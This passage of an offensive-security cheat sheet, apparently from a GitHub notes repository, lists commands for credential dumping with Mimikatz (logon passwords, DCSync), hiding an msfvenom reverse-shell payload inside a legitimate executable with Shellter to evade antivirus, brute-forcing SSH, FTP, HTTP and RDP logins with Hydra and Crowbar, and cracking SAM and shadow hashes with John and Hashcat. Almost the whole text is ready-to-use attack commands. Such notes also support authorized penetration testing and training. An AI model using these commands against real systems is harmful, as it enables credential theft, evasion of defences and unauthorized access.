 - [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)
    - `privilege::debug`
    - `sekurlsa::logonPasswords full`
        - Dump current computer passwords
    - `lsadump::dcsync /domain:{DOMAIN NAME} /all /csv`
        - Dump domain user hash (need domain admin)
    - `mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"`
### Powershell
- If got `cannot be loaded because running scripts is disabled on this system`
    - type `Set-ExecutionPolicy RemoteSigned`
### Defense Evasion
- Shellter
    - Auto Mode : A
    - PE Target : `{whoami.exe}`
    - Stealth mode : N
    - Custom : C
    - Payload : `{raw_file}`
        - `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f raw > {FILE}.raw`
    - DLL Loader : N

## Password Crack
### Software
- Hydra
    - Crack online services password
        - SMB,SSH,FTP......
    - Usage
        - ssh
            - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
        - http{s} Post
            - `hydra -l {username} -P {path_to_wordlist} {domain_name_without http/s} http{s}-post-form "{/{path}}:username=^USER^&password=^PASS^&data=data:{string_if_fail}"`
        - ftp
            - `hydra -l {username} -P {wordlist} ftp://{IP}`

- Cowbar
    -  `crowbar -b rdp -s {IP}/32 -U {User List} -C {Password List}`
- John the ripper
    - Crack hash like `/etc/shadow`
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
        - zip2john
        - samdump2
        	- NTLM 2 John
        	- `samdump2 system sam > j.txt`
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
        - https://hashcat.net/wiki/doku.php?id=example_hashes
    - `hashcat -m {mode} {hashes.txt} {wordlist.txt}`
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists
	- [xato-net-10-million-passwords-dup.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-dup.txt)
- Apache Tomcat
    - `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt`
    - `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`
